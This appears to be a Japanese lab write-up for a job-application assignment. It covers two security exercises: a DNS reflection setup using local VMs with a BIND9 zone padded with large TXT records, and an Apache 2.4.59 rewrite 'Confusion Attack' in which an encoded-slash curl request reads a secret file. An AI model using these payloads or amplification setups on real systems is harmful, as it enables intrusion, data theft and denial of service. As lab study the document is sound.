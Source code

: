 # Q.3(DNS reflection)

ホストOS: Linux

仮想化管理: Virtual Machine Manager（libvirt + QEMU/KVM）

Virtul Machine Manager を使用します。

以下のようにIPアドレスをそれぞれのコンピュターに割り当てる

| 仮想マシン名 | IPアドレス | 用途 |
| --- | --- | --- |
| attacker | すでに割り当てられているものを使う(今回は 192.168.11.25) | scapy による ANY＋EDNS0 クエリ をする |
| victim | 192.168.11.100 | 被害者（偽装される） |
| dns-server | 192.168.11.53 | BIND9でDNSサーバーとして振る舞う。大量のTXT/Aを返す。  |

**２つのゲストOSは仮想ブリッジ `br0` で接続する。**

br0は下のコマンドで作成する。

```bash
sudo ip link add name br0 type bridge
sudo ip link set dev br0 up
sudo ip link set dev enp3s0 master br0  # enp3s0が物理NIC
```

Virtual Machine Manager側でゲストOSがbr0を使用するようにする。

DNSサーバーのシステムのインストールを行います。

```bash
sudo apt install bind9
sudo systemctl start named
```

そしてDNSサーバー側でドメイン takkesan.com に対するゾーンを追加し、大量のレコードが返るようにします。

/etc/bind/db.takkesan.com

```bash
$TTL    604800
@       IN      SOA     ns1.takkesan.com. admin.takkesan.com. (
                          2024052005 ; Serial
                          604800     ; Refresh
                          86400      ; Retry
                          2419200    ; Expire
                          604800 )   ; Negative Cache TTL
;

@       IN      NS      ns1.takkesan.com.
@       IN      A       192.168.11.53
ns1     IN      A       192.168.11.53
www     IN      A       192.168.11.53
mail    IN      A       192.168.11.53
@       IN      MX 10   mail.takkesan.com.

;
@ IN TXT "It was at dusk on a certain day. A lone servant was waiting for the rain to stop under the Rashomon gate."
@ IN TXT "Under the wide gate, there was no one except this man. Only a single cricket rested on a large pillar,"
@ IN TXT "partially stripped of red lacquer. Considering that Rashomon stood on Suzaku Avenue,"
@ IN TXT "there should have been two or three more people, wearing straw hats or soft eboshi,"
@ IN TXT "also waiting for the rain to stop. Yet, there was no one else but this man."
@ IN TXT "The reason was that, in the past two or three years, Kyoto had suffered from a series of disasters earthquakes, whirlwinds,"
@ IN TXT "fires, and famines. As a result, the decline of the city was beyond description. According to old records,"
@ IN TXT "people smashed Buddhist statues and altar fittings, stripping off their red lacquer and gold or silver leaf,"
@ IN TXT "then piled up the wooden remains on the roadside and sold them as firewood. With that being the state of the capital,"

host1    IN      A       192.0.2.0
host2    IN      A       192.0.2.1
host3    IN      A       192.0.2.2
host4    IN      A       192.0.2.3
host5    IN      A       192.0.2.4
host6    IN      A       192.0.2.5
host7    IN      A       192.0.2.6
host8    IN      A       192.0.2.7
```

/etc/bind/named.conf.local

```bash
zone "takkesan.com" {
    type master;
    file "/etc/bind/db.takkesan.com";
};
```

被害者側でポート53番を一応開けておきます。

```bash
sudo ufw allow 53/udp
```

攻撃者側でWiresharkを起動してbr0を選択します。

入力フィールドにdnsと入力してDNS関連の通信のみを表示するようにします。

攻撃者側でmain.pyのスクリプトをrootで実行します。

# 結果の概要
Wiresharkの検索欄にdnsと入力してフィルターをかけています。


通常の問い合わせの場合
normal_request_by_dig.pcapng
![alt text](image-1.png)

IPアドレスを詐称して攻撃する場合
dns_reflection.pcapng
![alt text](image.png)

結果のまとめ、考察については応募課題のエントリーフォームに入力しています。

---

# Q.4 (Cofussion Attack)

バージョン: Apache HTTPサーバー 2.4.59
Docker: Docker version 28.1.1, build 4eba377327

httpd.conf
```bash
# User configuration
# 1) エンコードされたスラッシュを許可しデコードさせる
AllowEncodedSlashes On

# 2) 任意閲覧を許可するディレクトリ
<Directory "/var/user">
    Require all granted
</Directory>

# 3) 既存の RewriteRule はそのまま
RewriteEngine on
RewriteRule "^/user/(.+)$" "/var/user/$1/profile.yml"
```

## 結果の概要

通常のリクエストとConfusion攻撃を利用したリクエストの両方を試した結果です。

```bash
curl http://localhost:8080/user/orange
    profile.yml

curl http://localhost:8080/user/orange%2Fsecret.yml%3F
    password: super_secret

curl http://localhost:8080/user/orange/secret.yml
    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>404 Not Found</title>
    </head><body>
    <h1>Not Found</h1>
    <p>The requested URL was not found on this server.</p>
    </body></html>
```

結果のまとめ、考察については応募課題のエントリーフォームに入力しています。
